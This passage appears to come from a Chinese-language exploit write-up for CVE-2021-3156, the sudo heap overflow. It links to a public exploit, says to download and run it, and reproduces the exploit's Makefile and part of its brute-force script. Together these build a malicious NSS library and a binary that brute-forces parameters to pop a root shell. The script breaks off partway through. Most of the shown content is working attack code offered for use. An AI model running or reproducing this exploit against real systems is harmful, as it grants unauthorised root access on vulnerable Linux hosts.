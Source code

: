 

# 0X05 EXP

## EXP-1
下载地址：[https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

下载并执行<br />![image-20211105102630552.png](./assets/1659510124350-3d3987c4-a118-4d53-8161-f87bf8cc9520.png)

Makefile
```c
all:
rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
brute: all
gcc -DBRUTE -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
clean:
	rm -rf libnss_X sudo-hax-me-a-sandwich
```

brute.sh
```c
#!/bin/bash

try_brute() {
    IDX=`echo "$1" | awk -F ':' '{ print $1 }'`
        ALEN=`echo "$1" | awk -F ':' '{ print $2 }'`
        BLEN=`echo "$1" | awk -F ':' '{ print $3 }'`
        NLEN=`echo "$1" | awk -F ':' '{ print $4 }'`
        LCLEN=`echo "$1" | awk -F ':' '{ print $5 }'`
        OFN=out/`printf "%08d" $IDX`.txt
        
        (
        timeout 2 stdbuf -oL ./sudo-hax-me-a-sandwich $ALEN $BLEN $NLEN $LCLEN 2>&1
    ) > $OFN
        
        R="`grep -B999 bl1ng $OFN`"
        
        if [ "$R" == "" ]; then
            echo "NOPE"
            else
                echo "==================" >> success.txt
                grep -B999 bl1ng $OFN >> success.txt
                fi
                
                rm -f "${OFN}"
            }

if [ "$#" == "1" ]; then
N=`echo "$1" | awk -F ':' '{ print NF }'`
if [ "$N" == 5 ]; then
try_brute "$1"
    exit 0
    fi
    fi
    
    if [ "$#" != "6" ]; then
    echo "usage: $0 <smash_min> <smash_max> <null_min> <null_max> <lc_min> <lc_max>"
        exit 0
        fi
        
```